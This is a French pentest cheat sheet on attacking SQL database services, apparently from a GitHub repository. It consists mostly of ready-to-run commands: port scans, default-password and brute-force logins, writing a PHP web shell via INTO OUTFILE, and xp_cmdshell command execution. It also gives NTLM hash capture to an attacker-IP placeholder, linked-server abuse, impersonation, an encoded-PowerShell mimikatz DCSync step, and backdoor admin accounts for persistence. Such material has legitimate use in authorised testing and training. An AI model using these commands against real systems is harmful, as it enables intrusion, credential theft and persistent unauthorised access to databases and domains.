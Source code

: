 # SQL Databases (1433,3306/TCP)

Les bases de données SQL (MySQL, MSSQL, PostgreSQL) stockent et gèrent les données structurées.

## 🔍 Énumération

### Scan de base
```bash
# MySQL (3306)
sudo nmap -sV -p 3306 $IP
nmap --script=mysql-* -p 3306 $IP

# MSSQL (1433)
sudo nmap -sV -p 1433 $IP
nmap --script=ms-sql-* -p 1433 $IP

# PostgreSQL (5432)
sudo nmap -sV -p 5432 $IP
nmap --script=pgsql-* -p 5432 $IP
```

### Banner grabbing
```bash
# MySQL
nc -vn $IP 3306

# MSSQL
nc -vn $IP 1433
```

## 🔨 Exploitation

### Authentification par défaut/faible
```bash
# MySQL
mysql -h $IP -u root
mysql -h $IP -u root -p
# Essayer: root, mysql, '', password, root@123

# MSSQL
sqsh -S $IP -U sa -P ''
# Essayer: sa, '', sa123, password

# PostgreSQL
psql -h $IP -U postgres
# Essayer: postgres, '', admin, postgresql
```

### Attaque par force brute
```bash
# MySQL avec Hydra
hydra -l root -P /usr/share/wordlists/rockyou.txt $IP mysql

# MSSQL avec Metasploit
use auxiliary/scanner/mssql/mssql_login
set RHOSTS $IP
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```

### Exécution de commandes
```bash
# MySQL - Écriture de fichier (si FILE priv)
mysql -h $IP -u root -p -e "SELECT '<?php system(\$_GET[\"cmd\"]);?>' INTO OUTFILE '/var/www/html/shell.php'"

# MSSQL - Exécution de commandes
# Nécessite des privilèges sysadmin
sqsh -S $IP -U sa -P 'password'
1> EXEC master..xp_cmdshell 'whoami'
2> GO

# Capture de hachage NTLM via MSSQL
sqsh -S $IP -U sa -P 'password'
1> EXEC master..xp_dirtree '\\[VOTRE_IP]\share'
2> GO
```

### Extraction de données sensibles
```bash
# MySQL - Lister les bases et données
mysql -h $IP -u root -p -e "SHOW DATABASES"
mysql -h $IP -u root -p -e "USE mysql; SHOW TABLES"
mysql -h $IP -u root -p -e "SELECT User, Password FROM mysql.user"

# MSSQL - Extraire les informations sensibles
use auxiliary/admin/mssql/mssql_enum
set RHOSTS $IP
set USERNAME sa
set PASSWORD password
run
```

### Exploitation des serveurs liés (MSSQL)
```bash
# Énumérer les serveurs liés
1> SELECT srvname FROM master..sysservers
2> GO

# Exécuter des commandes via un serveur lié
1> EXECUTE('SELECT 1') AT [LINKED_SERVER]
2> GO

# Extraction de données à travers le lien
1> EXECUTE('SELECT name FROM master..sysdatabases') AT [LINKED_SERVER]
2> GO
```

## 🔐 Post-exploitation

### Impersonation (MSSQL)
```bash
# Identifier les utilisateurs pouvant être impersonnés
1> SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
2> GO

# Impersonner un utilisateur (ex: sa)
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```

### DCSync via MSSQL (si privilèges de domaine)
```bash
# Vérifier si l'utilisateur SQL a des privilèges de domaine
1> EXEC master..xp_cmdshell 'whoami /priv'
2> GO

# Exécuter mimikatz pour DCSync via MSSQL
1> EXEC master..xp_cmdshell 'powershell.exe -enc [ENCODED_COMMAND]'
2> GO
```

### Persistance
```bash
# MySQL - Créer un nouvel utilisateur admin
mysql -h $IP -u root -p -e "CREATE USER 'backdoor'@'%' IDENTIFIED BY 'password'; GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%' WITH GRANT OPTION"

# MSSQL - Créer un utilisateur et ajouter aux sysadmin
1> CREATE LOGIN hacker WITH PASSWORD = 'P@ssw0rd!'
2> EXEC master..sp_addsrvrolemember 'hacker', 'sysadmin'
3> GO
```

## ⚠️ Erreurs courantes & astuces
- MySQL est sensible à la casse pour les noms de tables sous Linux
- Les commandes xp_cmdshell sont souvent désactivées par défaut dans MSSQL
- L'authentification MSSQL peut être configurée pour Windows Auth uniquement
- Utilisez `WITH RESULT SETS` en MSSQL pour formater les résultats d'exécution
- Vérifiez les privilèges avec `SHOW GRANTS` (MySQL) ou `IS_SRVROLEMEMBER` (MSSQL)